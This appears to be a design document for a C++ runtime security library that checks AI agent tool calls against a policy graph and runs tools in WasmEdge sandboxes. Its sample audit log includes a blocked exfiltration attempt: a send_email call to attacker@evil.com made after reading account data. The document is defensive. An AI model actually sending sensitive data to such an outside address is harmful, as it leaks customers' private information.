

# Design Document: Guardian AI

## Overview

Guardian AI is a production-ready runtime security system for AI agents that provides two-layer protection: policy-based validation and sandboxed execution. The system intercepts tool calls before execution, validates them against a directed graph of allowed transitions, and executes approved tools in isolated WasmEdge environments with enforced resource constraints.

The MVP implementation is a C++ library optimized for performance-critical validation with <10ms policy validation latency. The library provides a clean API for integration into AI agent applications, accompanied by a CLI demonstration tool that showcases three security scenarios: financial data exfiltration prevention, developer assistant safety, and infinite loop detection.

### Two-Layer Security Architecture

1. **Policy Validation Layer**: Graph-based validation ensures tool call sequences follow approved patterns
2. **Sandbox Execution Layer**: WasmEdge isolation enforces memory limits, timeouts, file access controls, and network policies per tool

This defense-in-depth approach means even if a tool call passes policy validation, it executes in a constrained environment that prevents resource abuse, unauthorized file access, and network exfiltration.

### Key Design Principles

1. **Performance First**: Policy validation completes within 10ms; sandbox overhead <50ms for simple tools
2. **Policy-Based Trust**: Every tool call must be explicitly allowed by the policy graph
3. **Sandboxed Execution**: All approved tools execute in isolated WasmEdge VMs with enforced constraints
4. **Stateful Validation**: Track complete action sequences to detect multi-step attack patterns
5. **Fail-Safe**: On errors or ambiguity, default to blocking execution
6. **Observable**: Comprehensive logging and visualization for debugging and auditing
7. **Complementary Security**: Designed to work alongside existing security layers (prompt injection filters, RBAC)

### System Boundaries

**In Scope:**
- Policy graph definition and parsing (JSON, DOT formats)
- Tool call interception and validation
- Sequence tracking and session management
- Cycle detection and exfiltration pattern matching
- Visualization engine for policy graphs and violations
- C++ library API and CLI demo tool

**Out of Scope (Post-MVP):**
- HTTP API service for language-agnostic integration
- Python bindings (pybind11) for direct Python integration
- Machine learning-based anomaly detection for adaptive policies
- Distributed policy enforcement across multiple agents
- Real-time policy updates without restart
- Integration adapters for specific AI frameworks (LangChain, AutoGen, CrewAI)
- Advanced sandbox features (GPU access, custom syscall filtering, distributed sandboxes)
- Go-based agent orchestrator (described in project vision document)
- Merkle tree-based immutable audit trail (described in project vision document)
- Web-based visualization dashboard with D3.js/Cytoscape.js (described in project vision document)

> **Note on Vision vs. MVP:** The high-level project vision document describes a larger multi-language system with a Go orchestrator, Merkle tree audit trail, and web dashboard. This design document specifies the **MVP implementation**, which is a pure C++ library with CLI demo tool. The vision features are planned for post-MVP iterations.

## Architecture

### High-Level Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                        AI Agent                              │
│  ┌──────────────────────────────────────────────────────┐  │
│  │              Tool Execution Layer                     │  │
│  └────────────────────┬─────────────────────────────────┘  │
│                       │                                      │
│                       ▼                                      │
│  ┌──────────────────────────────────────────────────────┐  │
│  │           Guardian AI Library                         │  │
│  │  ┌────────────────────────────────────────────────┐  │  │
│  │  │         Tool Interceptor                       │  │  │
│  │  │  - Capture tool calls                          │  │  │
│  │  │  - Extract metadata                            │  │  │
│  │  │  - Forward to validator                        │  │  │
│  │  └──────────────┬─────────────────────────────────┘  │  │
│  │                 │                                      │  │
│  │                 ▼                                      │  │
│  │  ┌────────────────────────────────────────────────┐  │  │
│  │  │         Policy Validator                       │  │  │
│  │  │  - Sequence validation                         │  │  │
│  │  │  - Cycle detection                             │  │  │
│  │  │  - Exfiltration pattern matching               │  │  │
│  │  │  - Path validation algorithm                   │  │  │
│  │  └──────────────┬─────────────────────────────────┘  │  │
│  │                 │                                      │  │
│  │                 ▼ (if approved)                        │  │
│  │  ┌────────────────────────────────────────────────┐  │  │
│  │  │         Sandbox Manager                        │  │  │
│  │  │  - Load Wasm modules                           │  │  │
│  │  │  - Apply resource constraints                  │  │  │
│  │  │  - Execute in WasmEdge VM                      │  │  │
│  │  │  - Enforce memory/timeout/file/network limits  │  │  │
│  │  └──────────────┬─────────────────────────────────┘  │  │
│  │                 │                                      │  │
│  │                 ▼                                      │  │
│  │  ┌────────────────────────────────────────────────┐  │  │
│  │  │         WasmEdge Runtime                       │  │  │
│  │  │  - Isolated VM per tool execution              │  │  │
│  │  │  - WASI support for I/O                        │  │  │
│  │  │  - Resource monitoring                         │  │  │
│  │  └────────────────────────────────────────────────┘  │  │
│  │                                                        │  │
│  │  ┌────────────────────────────────────────────────┐  │  │
│  │  │         Policy Graph Engine                    │  │  │
│  │  │  - Graph representation                        │  │  │
│  │  │  - Node/edge management                        │  │  │
│  │  │  - Serialization/deserialization               │  │  │
│  │  └────────────────────────────────────────────────┘  │  │
│  │                                                        │  │
│  │  ┌────────────────────────────────────────────────┐  │  │
│  │  │         Session Manager                        │  │  │
│  │  │  - Track action sequences                      │  │  │
│  │  │  - Manage concurrent sessions                  │  │  │
│  │  │  - Persist audit logs                          │  │  │
│  │  └────────────────────────────────────────────────┘  │  │
│  │                                                        │  │
│  │  ┌────────────────────────────────────────────────┐  │  │
│  │  │         Visualization Engine                   │  │  │
│  │  │  - Render policy graphs                        │  │  │
│  │  │  - Highlight violations                        │  │  │
│  │  │  - Generate diagrams                           │  │  │
│  │  └────────────────────────────────────────────────┘  │  │
│  └────────────────────────────────────────────────────────┘  │
└─────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────┐
│                    CLI Demo Tool                             │
│  - Pre-configured scenarios                                  │
│  - Interactive mode                                          │
│  - Visualization output                                      │
└─────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────┐
│                    Wasm Tools Directory                      │
│  - Compiled tool modules (.wasm)                             │
│  - Tool-specific configurations                              │
│  - Example tool implementations                              │
└─────────────────────────────────────────────────────────────┘
```

### Component Interactions



### Data Flow

1. **Tool Call Capture**: AI agent invokes tool → Interceptor captures call metadata
2. **Sequence Retrieval**: Interceptor queries Session Manager for current action sequence
3. **Policy Validation**: Policy Validator checks transition legality, cycles, and exfiltration patterns
4. **Graph Lookup**: Policy Graph Engine provides allowed transitions and node metadata
5. **Policy Decision**: Validator returns approval/rejection with reasoning
6. **Sandbox Preparation**: If approved, Sandbox Manager loads Wasm module and applies constraints
7. **Isolated Execution**: WasmEdge VM executes tool with enforced memory, timeout, file, and network limits
8. **Constraint Enforcement**: VM monitors resource usage and blocks violations
9. **Result Return**: If successful, result returned to agent; if violation, error returned
10. **Logging**: All decisions and sandbox events logged for audit and visualization

## Components and Interfaces

### 1. Policy Graph Engine

**Responsibility**: Manage the directed graph representation of allowed tool transitions.

**Key Classes**:

```cpp
class PolicyNode {
public:
    std::string id;
    std::string tool_name;
    RiskLevel risk_level;
    NodeType node_type;  // NORMAL, SENSITIVE_SOURCE, EXTERNAL_DESTINATION
    std::map<std::string, std::string> metadata;
};

class PolicyEdge {
public:
    std::string from_node_id;
    std::string to_node_id;
    std::vector<std::string> conditions;
    std::map<std::string, std::string> metadata;
};

class PolicyGraph {
public:
    // Graph construction
    void add_node(const PolicyNode& node);
    void add_edge(const PolicyEdge& edge);
    void remove_node(const std::string& node_id);
    void remove_edge(const std::string& from_id, const std::string& to_id);
    
    // Graph queries
    bool has_node(const std::string& node_id) const;
    bool has_edge(const std::string& from_id, const std::string& to_id) const;
    std::vector<std::string> get_neighbors(const std::string& node_id) const;
    const PolicyNode& get_node(const std::string& node_id) const;
    
    // Serialization
    std::string to_json() const;
    std::string to_dot() const;
    static PolicyGraph from_json(const std::string& json);
    static PolicyGraph from_dot(const std::string& dot);
    
private:
    std::unordered_map<std::string, PolicyNode> nodes_;
    std::unordered_map<std::string, std::vector<PolicyEdge>> adjacency_list_;
};
```

**Interface Design**:
- Adjacency list representation for O(1) neighbor lookup
- Immutable after construction for thread safety
- Support both JSON and DOT formats for flexibility

### 2. Tool Interceptor

**Responsibility**: Capture tool calls before execution, coordinate validation, and delegate to sandbox for execution.

**Key Classes**:

```cpp
struct ToolCall {
    std::string tool_name;
    std::map<std::string, std::string> parameters;
    std::chrono::system_clock::time_point timestamp;
    std::string session_id;
};

class ToolInterceptor {
public:
    ToolInterceptor(PolicyValidator* validator, 
                    SessionManager* session_mgr,
                    SandboxManager* sandbox_mgr);
    
    // Main interception point
    ValidationResult intercept(const ToolCall& tool_call);
    
    // Hook for tool execution (delegates to sandbox)
    template<typename Func, typename... Args>
    auto execute_if_valid(const std::string& tool_name, 
                          const std::string& session_id,
                          Func&& func, 
                          Args&&... args);
    
private:
    PolicyValidator* validator_;
    SessionManager* session_manager_;
    SandboxManager* sandbox_manager_;
};
```

**Interface Design**:
- Template-based execution wrapper for type safety
- Non-intrusive interception pattern
- Delegates approved calls to Sandbox Manager
- Minimal overhead (<5ms for validation)

### 3. Sandbox Manager

**Responsibility**: Execute approved tools in isolated WasmEdge environments with enforced resource constraints.

**Key Classes**:

```cpp
struct SandboxConfig {
    uint64_t memory_limit_mb;
    uint32_t timeout_ms;
    std::vector<std::string> allowed_paths;
    bool network_access;
    std::map<std::string, std::string> environment_vars;
};

struct SandboxResult {
    bool success;
    std::string output;
    std::optional<std::string> error;
    uint64_t memory_used_bytes;
    uint32_t execution_time_ms;
    std::optional<SandboxViolation> violation;
};

struct SandboxViolation {
    enum Type { MEMORY_EXCEEDED, TIMEOUT, FILE_ACCESS_DENIED, NETWORK_DENIED };
    Type type;
    std::string details;
};

// Abstraction layer for Wasm runtime (enables testing and future flexibility)
class IWasmRuntime {
public:
    virtual ~IWasmRuntime() = default;
    
    // Execute Wasm module with constraints
    virtual SandboxResult execute(const std::string& module_path,
                                 const std::map<std::string, std::string>& params,
                                 const SandboxConfig& config) = 0;
    
    // Module management
    virtual bool is_loaded() const = 0;
    virtual void reload() = 0;
};

// WasmEdge implementation
class WasmEdgeRuntime : public IWasmRuntime {
public:
    WasmEdgeRuntime(const std::string& wasm_module_path);
    
    SandboxResult execute(const std::string& module_path,
                         const std::map<std::string, std::string>& params,
                         const SandboxConfig& config) override;
    
    bool is_loaded() const override;
    void reload() override;
    
private:
    std::string module_path_;
    std::unique_ptr<WasmEdge::VM> vm_;
    std::unique_ptr<WasmEdge::Configure> configure_;
};

// Mock runtime for testing (no .wasm files or WasmEdge installation required)
class MockRuntime : public IWasmRuntime {
public:
    MockRuntime() = default;
    
    SandboxResult execute(const std::string& module_path,
                         const std::map<std::string, std::string>& params,
                         const SandboxConfig& config) override;
    
    bool is_loaded() const override { return true; }
    void reload() override {}
    
    // Test control methods
    void set_next_result(const SandboxResult& result);
    void simulate_violation(SandboxViolation::Type type);
    
private:
    std::optional<SandboxResult> next_result_;
};

class WasmExecutor {
public:
    WasmExecutor(const std::string& wasm_module_path, 
                std::unique_ptr<IWasmRuntime> runtime = nullptr);
    
    // Execute with constraints
    SandboxResult execute(const std::map<std::string, std::string>& params,
                         const SandboxConfig& config);
    
    // Module management
    bool is_loaded() const;
    void reload();
    
private:
    std::string module_path_;
    std::unique_ptr<IWasmRuntime> runtime_;
};

class SandboxManager {
public:
    SandboxManager(const std::string& wasm_tools_dir,
                  std::function<std::unique_ptr<IWasmRuntime>(const std::string&)> runtime_factory = nullptr);
    
    // Main execution interface
    SandboxResult execute_tool(const std::string& tool_name,
                              const std::map<std::string, std::string>& params,
                              const SandboxConfig& config);
    
    // Module loading
    bool load_module(const std::string& tool_name, 
                    const std::string& wasm_path);
    void unload_module(const std::string& tool_name);
    bool has_module(const std::string& tool_name) const;
    
    // Configuration
    void set_default_config(const SandboxConfig& config);
    SandboxConfig get_config_for_tool(const std::string& tool_name) const;
    
private:
    std::string wasm_tools_dir_;
    std::unordered_map<std::string, std::unique_ptr<WasmExecutor>> executors_;
    std::unordered_map<std::string, SandboxConfig> tool_configs_;
    SandboxConfig default_config_;
    std::function<std::unique_ptr<IWasmRuntime>(const std::string&)> runtime_factory_;
    mutable std::shared_mutex mutex_;
};
```

**Interface Design**:
- **Abstraction Layer**: `IWasmRuntime` interface enables testing without .wasm files and future runtime swappability
- **WasmEdge Implementation**: `WasmEdgeRuntime` wraps WasmEdge C++ SDK for production use
- **Mock Runtime**: `MockRuntime` enables fast unit tests without WasmEdge installation
- **Runtime Factory**: Dependency injection pattern allows test code to inject `MockRuntime`
- Per-tool Wasm module caching for performance
- Thread-safe executor pool
- WASI support for controlled file and network I/O
- Resource monitoring and enforcement
- Detailed violation reporting

**Constraint Enforcement**:
- **Memory Limits**: WasmEdge VM configured with max memory pages
- **Timeouts**: WasmEdge provides `configure.set_timeout(ms)` for clean timeout enforcement
- **File Access**: WASI preopened directories restrict filesystem access
- **Network Access**: WASI socket permissions control network operations

**Testing Benefits**:
- Unit tests run without compiling .wasm files
- Fast CI without WasmEdge installation
- Deterministic test behavior via `MockRuntime`
- Easy simulation of constraint violations

### 4. Policy Validator

**Responsibility**: Validate tool call sequences against policy rules.

**Key Classes**:

```cpp
struct ValidationResult {
    bool approved;
    std::string reason;
    std::vector<std::string> suggested_alternatives;
    std::optional<CycleInfo> detected_cycle;
    std::optional<ExfiltrationPath> detected_exfiltration;
};

struct CycleInfo {
    size_t cycle_start_index;
    size_t cycle_length;
    std::vector<std::string> cycle_tools;
};

struct ExfiltrationPath {
    std::string source_node;
    std::string destination_node;
    std::vector<std::string> path;
};

class PolicyValidator {
public:
    PolicyValidator(const PolicyGraph& graph, const Config& config);
    
    // Main validation
    ValidationResult validate(const std::string& tool_name,
                             const std::vector<ToolCall>& sequence);
    
    // Specific checks
    bool check_transition(const std::string& from_tool, 
                         const std::string& to_tool) const;
    std::optional<CycleInfo> detect_cycle(const std::vector<ToolCall>& sequence) const;
    std::optional<ExfiltrationPath> detect_exfiltration(
        const std::vector<ToolCall>& sequence) const;
    
    // Path validation
    bool is_valid_path(const std::vector<std::string>& path) const;
    
private:
    const PolicyGraph& graph_;
    Config config_;
    mutable std::unordered_map<std::string, bool> validation_cache_;
};
```

**Interface Design**:
- Const-correct for thread safety
- Caching for repeated pattern validation
- Detailed result objects for debugging

### 5. Session Manager

**Responsibility**: Track action sequences for concurrent agent sessions.

**Key Classes**:

```cpp
struct Session {
    std::string session_id;
    std::vector<ToolCall> action_sequence;
    std::chrono::system_clock::time_point created_at;
    std::chrono::system_clock::time_point last_activity;
    std::map<std::string, std::string> metadata;
};

class SessionManager {
public:
    // Session lifecycle
    std::string create_session();
    void end_session(const std::string& session_id);
    bool has_session(const std::string& session_id) const;
    
    // Sequence management
    void append_tool_call(const std::string& session_id, const ToolCall& call);
    const std::vector<ToolCall>& get_sequence(const std::string& session_id) const;
    
    // Audit
    void persist_session(const std::string& session_id, const std::string& path);
    std::vector<Session> get_all_sessions() const;
    
private:
    std::unordered_map<std::string, Session> sessions_;
    mutable std::shared_mutex mutex_;  // For concurrent access
};
```

**Interface Design**:
- Thread-safe with read-write locks
- UUID-based session identifiers
- Persistent audit trail

### 6. Visualization Engine

**Responsibility**: Render policy graphs and highlight violations.

**Key Classes**:

```cpp
struct VisualizationOptions {
    std::string output_format;  // "dot", "svg", "png", "ascii"
    bool highlight_violations;
    bool show_metadata;
    std::map<std::string, std::string> style_overrides;
};

class VisualizationEngine {
public:
    // Graph visualization
    std::string render_graph(const PolicyGraph& graph,
                            const VisualizationOptions& options);
    
    // Sequence visualization
    std::string render_sequence(const PolicyGraph& graph,
                               const std::vector<ToolCall>& sequence,
                               const ValidationResult& result,
                               const VisualizationOptions& options);
    
    // ASCII art for CLI
    std::string render_ascii_graph(const PolicyGraph& graph);
    std::string render_ascii_sequence(const std::vector<ToolCall>& sequence);
    
private:
    std::string generate_dot(const PolicyGraph& graph,
                            const std::vector<std::string>& highlighted_nodes,
                            const std::vector<std::pair<std::string, std::string>>& highlighted_edges);
};
```

**Interface Design**:
- Multiple output formats (DOT, SVG, PNG, ASCII)
- Configurable styling
- Fast rendering (<2s for 100 nodes)

### 7. Guardian API (Main Entry Point)

**Responsibility**: Provide clean public API for library users.

**Key Classes**:

```cpp
class Guardian {
public:
    // Initialization
    explicit Guardian(const std::string& policy_file_path, 
                     const std::string& wasm_tools_dir = "./wasm_tools");
    Guardian(const PolicyGraph& graph, const Config& config,
            const std::string& wasm_tools_dir = "./wasm_tools");
    
    // Main API - validates and executes in sandbox
    SandboxResult execute_tool(const std::string& tool_name,
                              const std::map<std::string, std::string>& params,
                              const std::string& session_id);
    
    // Policy validation only (no execution)
    ValidationResult validate_tool_call(const std::string& tool_name,
                                       const std::map<std::string, std::string>& params,
                                       const std::string& session_id);
    
    // Session management
    std::string create_session();
    void end_session(const std::string& session_id);
    
    // Sandbox management
    bool load_tool_module(const std::string& tool_name, 
                         const std::string& wasm_path,
                         const SandboxConfig& config);
    void set_default_sandbox_config(const SandboxConfig& config);
    
    // Visualization
    std::string visualize_policy() const;
    std::string visualize_session(const std::string& session_id) const;
    
    // Configuration
    void update_config(const Config& config);
    Config get_config() const;
    
private:
    PolicyGraph graph_;
    Config config_;
    std::unique_ptr<PolicyValidator> validator_;
    std::unique_ptr<SessionManager> session_manager_;
    std::unique_ptr<SandboxManager> sandbox_manager_;
    std::unique_ptr<VisualizationEngine> viz_engine_;
};
```

**Interface Design**:
- RAII for resource management
- Exception-safe
- Minimal dependencies in public headers
- Sandbox execution integrated into main API

## Data Models

### PolicyGraph Storage Format (JSON)

```json
{
  "version": "1.0",
  "nodes": [
    {
      "id": "read_accounts",
      "tool_name": "read_accounts",
      "risk_level": "high",
      "node_type": "sensitive_source",
      "wasm_module": "wasm_tools/read_accounts.wasm",
      "sandbox_config": {
        "memory_limit_mb": 64,
        "timeout_ms": 5000,
        "allowed_paths": ["/data/accounts"],
        "network_access": false
      },
      "metadata": {
        "description": "Read customer account data",
        "data_classification": "PII"
      }
    },
    {
      "id": "send_email",
      "tool_name": "send_email",
      "risk_level": "medium",
      "node_type": "external_destination",
      "wasm_module": "wasm_tools/send_email.wasm",
      "sandbox_config": {
        "memory_limit_mb": 32,
        "timeout_ms": 10000,
        "allowed_paths": [],
        "network_access": true
      },
      "metadata": {
        "description": "Send email to external address"
      }
    }
  ],
  "edges": [
    {
      "from": "read_accounts",
      "to": "generate_report",
      "conditions": [],
      "metadata": {
        "description": "Allow report generation from account data"
      }
    }
  ]
}
```

### Session Audit Log Format (JSON)

```json
{
  "session_id": "550e8400-e29b-41d4-a716-446655440000",
  "created_at": "2024-01-15T10:30:00Z",
  "ended_at": "2024-01-15T10:35:00Z",
  "action_sequence": [
    {
      "tool_name": "read_accounts",
      "parameters": {"account_id": "12345"},
      "timestamp": "2024-01-15T10:30:05Z",
      "validation_result": {
        "approved": true,
        "reason": "Initial tool call allowed"
      },
      "sandbox_result": {
        "success": true,
        "memory_used_bytes": 12582912,
        "execution_time_ms": 45
      }
    },
    {
      "tool_name": "send_email",
      "parameters": {"to": "attacker@evil.com"},
      "timestamp": "2024-01-15T10:30:10Z",
      "validation_result": {
        "approved": false,
        "reason": "Direct exfiltration path detected: read_accounts -> send_email",
        "suggested_alternatives": ["generate_report", "encrypt"]
      },
      "sandbox_result": null
    }
  ]
}
```

### Configuration Format (JSON)

```json
{
  "cycle_detection": {
    "enabled": true,
    "max_consecutive_repeats": 10,
    "per_tool_thresholds": {
      "search_database": 20,
      "read_file": 15
    }
  },
  "sandbox": {
    "wasm_tools_dir": "./wasm_tools",
    "default_memory_limit_mb": 128,
    "default_timeout_ms": 30000,
    "enable_wasi": true,
    "default_network_access": false
  },
  "performance": {
    "validation_timeout_ms": 10,
    "sandbox_overhead_budget_ms": 50,
    "cache_size": 1000
  },
  "logging": {
    "level": "INFO",
    "output": "guardian.log",
    "format": "json",
    "log_sandbox_metrics": true
  },
  "policy": {
    "graph_file": "policy.json",
    "strict_mode": true
  }
}
```

## Algorithms

### 1. Transition Validation Algorithm

```
Algorithm: validate_transition(from_tool, to_tool, graph)
Input: from_tool (string), to_tool (string), graph (PolicyGraph)
Output: (bool, string) - (is_valid, reason)

1. If from_tool is empty:
   a. If to_tool exists in graph.nodes:
      Return (true, "Initial tool call allowed")
   b. Else:
      Return (false, "Tool not defined in policy graph")

2. If not graph.has_edge(from_tool, to_tool):
   a. Get neighbors = graph.get_neighbors(from_tool)
   b. Return (false, "Transition not allowed. Valid next tools: " + neighbors)

3. Return (true, "Transition allowed")

Time Complexity: O(1) with adjacency list
Space Complexity: O(1)
```

### 2. Cycle Detection Algorithm

```
Algorithm: detect_cycle(sequence, max_repeats)
Input: sequence (vector<ToolCall>), max_repeats (int)
Output: optional<CycleInfo>

1. If sequence.length < 2:
   Return nullopt

2. Create frequency_map: map<string, vector<int>>
3. For i = 0 to sequence.length - 1:
   a. tool = sequence[i].tool_name
   b. frequency_map[tool].push_back(i)

4. For each (tool, indices) in frequency_map:
   a. consecutive_count = 1
   b. For j = 1 to indices.length - 1:
      i. If indices[j] == indices[j-1] + 1:
         - consecutive_count++
         - If consecutive_count > max_repeats:
           Return CycleInfo{
             cycle_start_index: indices[j - consecutive_count + 1],
             cycle_length: consecutive_count,
             cycle_tools: [tool]
           }
      ii. Else:
         - consecutive_count = 1

5. Return nullopt

Time Complexity: O(n) where n = sequence length
Space Complexity: O(n)
```

### 3. Exfiltration Path Detection Algorithm

```
Algorithm: detect_exfiltration(sequence, graph)
Input: sequence (vector<ToolCall>), graph (PolicyGraph)
Output: optional<ExfiltrationPath>

1. sensitive_sources = graph.get_nodes_by_type(SENSITIVE_SOURCE)
2. external_dests = graph.get_nodes_by_type(EXTERNAL_DESTINATION)

3. For i = 0 to sequence.length - 1:
   a. current_tool = sequence[i].tool_name
   b. If current_tool in sensitive_sources:
      i. For j = i + 1 to sequence.length - 1:
         - next_tool = sequence[j].tool_name
         - If next_tool in external_dests:
           * path = extract_path(sequence, i, j)
           * If is_direct_path(path, graph):
             Return ExfiltrationPath{
               source_node: current_tool,
               destination_node: next_tool,
               path: path
             }

4. Return nullopt

Helper: is_direct_path(path, graph)
- A path is "direct" if it doesn't go through required processing nodes
- Check if path contains any node with node_type == DATA_PROCESSOR
- Return true if no processor found, false otherwise

Time Complexity: O(n * m) where n = sequence length, m = avg path length
Space Complexity: O(m)
```

### 4. Path Validation Algorithm

```
Algorithm: is_valid_path(path, graph)
Input: path (vector<string>), graph (PolicyGraph)
Output: bool

1. If path.length == 0:
   Return true

2. If path.length == 1:
   Return graph.has_node(path[0])

3. For i = 0 to path.length - 2:
   a. If not graph.has_edge(path[i], path[i+1]):
      Return false

4. Return true

Time Complexity: O(n) where n = path length
Space Complexity: O(1)
```

### 5. Validation Caching Strategy

```
Algorithm: cached_validate(tool_name, sequence, cache)
Input: tool_name (string), sequence (vector<ToolCall>), cache (map)
Output: ValidationResult

1. cache_key = generate_cache_key(tool_name, sequence)
2. If cache.contains(cache_key):
   Return cache[cache_key]

3. result = perform_validation(tool_name, sequence)
4. If cache.size() >= MAX_CACHE_SIZE:
   cache.evict_oldest()

5. cache[cache_key] = result
6. Return result

Helper: generate_cache_key(tool_name, sequence)
- Extract last N tools from sequence (N = 5)
- Concatenate: tool_name + "|" + last_5_tools.join(",")
- Return hash of concatenated string

Time Complexity: O(1) for cache hit, O(n) for cache miss
Space Complexity: O(MAX_CACHE_SIZE)
```

### 6. Wasm Module Loading Algorithm

```
Algorithm: load_wasm_module(tool_name, wasm_path, config)
Input: tool_name (string), wasm_path (string), config (SandboxConfig)
Output: (bool, optional<string>) - (success, error_message)

1. If not file_exists(wasm_path):
   Return (false, "Wasm module not found: " + wasm_path)

2. Create WasmEdge::Configure with:
   a. Memory limit: config.memory_limit_mb * 1024 * 1024 / 65536 pages
   b. Enable WASI if config requires file or network access
   c. Set timeout handler for config.timeout_ms

3. Try:
   a. vm = new WasmEdge::VM(configure)
   b. loader = vm.getLoader()
   c. module = loader.parseFromFile(wasm_path)
   d. validator = vm.getValidator()
   e. If not validator.validate(module):
      Return (false, "Invalid Wasm module")
   f. vm.registerModule(tool_name, module)
   
4. Catch exception e:
   Return (false, "Failed to load module: " + e.what())

5. Store vm in executors_[tool_name]
6. Store config in tool_configs_[tool_name]
7. Return (true, nullopt)

Time Complexity: O(m) where m = module size
Space Complexity: O(m)
```

### 7. Sandbox Constraint Enforcement Algorithm

```
Algorithm: execute_with_constraints(vm, function_name, params, config)
Input: vm (WasmEdge::VM), function_name (string), params (map), config (SandboxConfig)
Output: SandboxResult

1. Start timer
2. Set memory limit on VM (config.memory_limit_mb)
3. Set timeout handler (config.timeout_ms)

4. If config.allowed_paths not empty:
   a. For each path in config.allowed_paths:
      i. vm.getWasiModule().addPreopenDir(path)

5. If not config.network_access:
   a. vm.getWasiModule().disableNetworking()

6. Try:
   a. result = vm.execute(function_name, params)
   b. elapsed_ms = timer.elapsed()
   c. memory_used = vm.getMemoryUsage()
   d. Return SandboxResult{
        success: true,
        output: result,
        memory_used_bytes: memory_used,
        execution_time_ms: elapsed_ms
      }

7. Catch TimeoutException:
   Return SandboxResult{
     success: false,
     violation: SandboxViolation{TIMEOUT, "Exceeded " + config.timeout_ms + "ms"}
   }

8. Catch MemoryException:
   Return SandboxResult{
     success: false,
     violation: SandboxViolation{MEMORY_EXCEEDED, "Exceeded " + config.memory_limit_mb + "MB"}
   }

9. Catch FileAccessException e:
   Return SandboxResult{
     success: false,
     violation: SandboxViolation{FILE_ACCESS_DENIED, "Unauthorized path: " + e.path}
   }

10. Catch NetworkException:
    Return SandboxResult{
      success: false,
      violation: SandboxViolation{NETWORK_DENIED, "Network access not allowed"}
    }

Time Complexity: O(t) where t = tool execution time
Space Complexity: O(config.memory_limit_mb)
```

### 8. Sandbox Violation Detection Algorithm

```
Algorithm: detect_sandbox_violation(vm, config)
Input: vm (WasmEdge::VM), config (SandboxConfig)
Output: optional<SandboxViolation>

1. current_memory = vm.getMemoryUsage()
2. If current_memory > config.memory_limit_mb * 1024 * 1024:
   Return SandboxViolation{
     MEMORY_EXCEEDED,
     "Used " + current_memory + " bytes, limit " + config.memory_limit_mb + "MB"
   }

3. elapsed_time = vm.getExecutionTime()
4. If elapsed_time > config.timeout_ms:
   Return SandboxViolation{
     TIMEOUT,
     "Execution time " + elapsed_time + "ms exceeded limit " + config.timeout_ms + "ms"
   }

5. If vm.hasUnauthorizedFileAccess():
   path = vm.getUnauthorizedPath()
   Return SandboxViolation{
     FILE_ACCESS_DENIED,
     "Attempted access to unauthorized path: " + path
   }

6. If not config.network_access and vm.hasNetworkActivity():
   Return SandboxViolation{
     NETWORK_DENIED,
     "Network access attempted but not allowed"
   }

7. Return nullopt

Time Complexity: O(1)
Space Complexity: O(1)
```


## Implementation Details

### File Structure

```
guardian-ai/
├── include/
│   └── guardian/
│       ├── guardian.hpp           # Main API entry point
│       ├── policy_graph.hpp       # Policy graph representation
│       ├── policy_validator.hpp   # Validation logic
│       ├── tool_interceptor.hpp   # Tool call interception
│       ├── session_manager.hpp    # Session tracking
│       ├── sandbox_manager.hpp    # Sandbox execution management
│       ├── visualization.hpp      # Visualization engine
│       └── types.hpp              # Common types and enums
├── src/
│   ├── guardian.cpp
│   ├── policy_graph.cpp
│   ├── policy_validator.cpp
│   ├── tool_interceptor.cpp
│   ├── session_manager.cpp
│   ├── sandbox_manager.cpp
│   └── visualization.cpp
├── cli/
│   ├── main.cpp                   # CLI demo tool entry point
│   ├── scenarios.cpp              # Pre-configured demo scenarios
│   └── terminal_ui.cpp            # Terminal output formatting
├── wasm_tools/
│   ├── read_accounts.wasm         # Example: Account reading tool
│   ├── send_email.wasm            # Example: Email sending tool
│   ├── generate_report.wasm       # Example: Report generation tool
│   ├── src/                       # Wasm tool source code
│   │   ├── read_accounts.cpp      # C++ source for read_accounts
│   │   ├── send_email.cpp         # C++ source for send_email
│   │   └── generate_report.cpp    # C++ source for generate_report
│   ├── build.sh                   # Script to compile tools to Wasm
│   └── README.md                  # Guide for creating Wasm tools
├── examples/
│   ├── basic_integration.cpp      # Simple integration example
│   ├── custom_policy.cpp          # Programmatic policy creation
│   ├── concurrent_sessions.cpp    # Multi-session example
│   ├── sandbox_config.cpp         # Sandbox configuration example
│   └── python_wrapper.py          # Example Python wrapper (post-MVP reference)
├── tests/
│   ├── unit/                      # Unit tests
│   ├── property/                  # Property-based tests
│   └── sandbox/                   # Sandbox-specific tests
├── policies/
│   ├── financial.json             # Financial demo policy
